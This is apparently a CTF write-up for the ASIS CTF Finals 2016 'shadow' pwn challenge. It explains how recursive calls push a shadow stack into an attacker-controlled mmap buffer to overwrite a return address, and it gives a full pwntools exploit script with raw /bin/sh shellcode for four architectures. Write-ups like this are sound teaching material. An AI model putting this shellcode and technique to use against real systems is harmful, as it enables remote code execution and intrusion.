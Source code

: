 ```yaml
---
title: ASIS CTF Finals 2016 -- shadow
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- CTF
- ASIS
- Python
- Pwnable
- shellcode
- heap
categories:
- write-ups
date: '2016-09-13 15:32:00 +0000'
---
```


**Category:** pwn
**Points:** 99  

<!-- more -->   
  
32 bit ELF, with no NX, PIE, RELRO protection. The program will first use `mmap` to allocate a range of memory and treat it as a shadow stack, which stores the function return addresses.  
In the main function the program first ask us to input our name (the buffer was placed in the .bss section), then give us two choice:  
  
* Add a beer. This one will first ask us to input the beer description length, then let us input our own beer description.  
* Read/Modify beer desription. Here we first choose one of our beer, and the program will print out the beer description. After that we can choose if we want to modify the beer description or not.  
  
So where's the vulnerability? The program has `malloc` in the add beer function, but it doesn't have `free` in the entire program, so it's probably not UAF. There's a stack overflow in the beer description function though, but the binary has enabled the stack guard protection, so it's kind of hard for us to bypass the canary check. But then I took a good look at the beer description function, and found that we can call the function recursively, by keep entering an invalid choice. This will cause the shadow stack keep "growing up".  
  
And how's that gonna help us to exploit the service? Well, first of all we know that the `malloc` function in libc will call `mmap` instead for the large size memory allocation ( over 0x20000 bytes). Since the add beer function use `malloc` to allocate memory for our beer description, we could try to create a super long beer description. This will make `malloc` call `mmap` instead, and the allocated memory page **will be placed just right before the last mmap memory page, which is the shadow stack.** If we can make the shadow stack keep "growing up", **it will eventually overlapped with the memory page of our beer description**. Since we can control (modify) the beer description, we can then modify the saved return address and change it to the `name` buffer, which we input our shellcode instead.  
  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "shadow.asis-ctf.ir"
PORT = 31337
ELF_PATH = "./shadow"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def add_one(size, desr):
    r.sendline("1")
    log.info("send desc length")
    r.sendlineafter("length?\n", str(size))
    log.info("send desc")
    r.send(desr)

if __name__ == "__main__":
    
    shellcode_addr = 0x0804a520
    shellcode = sc()

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    log.info("send name (shellcode)")
    r.sendlineafter("name?\n", shellcode)
    r.recvuntil("it?\n")

    log.info("add one beer")
    add_one(0x20000, "A"*(0x20000-4)+"BBBB")
    r.recvuntil("beer uploaded to the memory!\n")
    r.recvuntil("0\n")
    log.info("add beer done")

    log.info("choose desc")
    r.sendline("2") # choose desc
    r.sendline("0") # input index

    log.info("recieving BBBB")
    print r.recvuntil("BBBB")
    log.info("recieving rest output")
    print r.recvuntil("\n")
    print r.recvline()
    log.info("start stacking stack")

    maxx = 80000
    for i in xrange(maxx):
        check = i% 10000
        if check == 0:
            print i
        r.sendline("z")

    r.sendline('y')
    r.send(p32(shellcode_addr)*(0x20000/4))

    r.interactive()

```
  
After I finshed my exploit, I found that it will timeout due to the crappy internet connection, so I have to upload my exploit to trello and ask my teammate **freetsubasa** to send the payload for me XD  
Anyway the flag is: `ASIS{732f9beb138dbca4e44d5d184c3074dc}`